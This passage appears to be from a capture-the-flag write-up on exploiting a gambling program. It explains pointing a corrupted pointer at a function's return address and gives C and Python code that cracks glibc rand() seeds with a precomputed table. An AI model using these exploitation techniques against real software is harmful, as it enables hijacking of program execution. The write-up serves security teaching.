 Note that I add 0x2a bytes to the stack leak. This is because I want to make the stack target the return address of the `handler` function. The idea is that we set the value of the feedback pointer to point to the return address of the `handler` function, so we can easily control code execution.

## Gambling
Now that we have set the money pointer to point to the feedback pointer, we can modify the value at the feedback pointer by gambling. To do this, we need to have a mechanism for cracking the seed. I wrote a program in C to generate a hash table that we can then use to predict random numbers.
```c
#include <stdlib.h>
#include <stdio.h>

int main()
{
    FILE *map = fopen("map.bin", "wb");
    for (int i = 0; i < 0x1000000; i++)
    {
        if (i % 0x100000 == 0)
            printf("%d results computed\n", i);
        srand(i);
        int random1 = rand();
        rand();
        int random2 = rand();
        fwrite(&random1, sizeof(int), 1, map);
        fwrite(&random2, sizeof(int), 1, map);
    }
    fclose(map);
    return 0;
}
```

Something to note here is that I have a junk call to rand after random1. I do this because if you recall, the program also adds or subtracts a random number to our balance depending on whether or not we won, so effectively it mutates the state of the PRNG again. It is significantly easier to get the lucky number than calculate how much was subtracted from our balance, since the program prints the random number.

Also, we need two random numbers for every possible seed because there are multiple collisions in the hash table if we only have one number. This is because there are 0x1000000 possible seeds but only 0x10000 possible numbers, so having two numbers makes it very unlikely for there to be a collision. 

I wrote a quick API in Python to extract these numbers:

```py

from ctypes import CDLL
libc_obj = CDLL("libc.so.6")


def find_seed(num1, num2):
    with open("map.bin", "rb") as f:
        for i in range(0x1000000):
            if i % 0x100000 == 0:
                log.info("{} candidates searched".format(i))
            candidate1 = int.from_bytes(f.read(4), "little")
            candidate2 = int.from_bytes(f.read(4), "little")
            if candidate1 == num1 and candidate2 == num2:
                return i
    return None


def srand(seed):
    libc_obj.srand(seed)
    rand()
```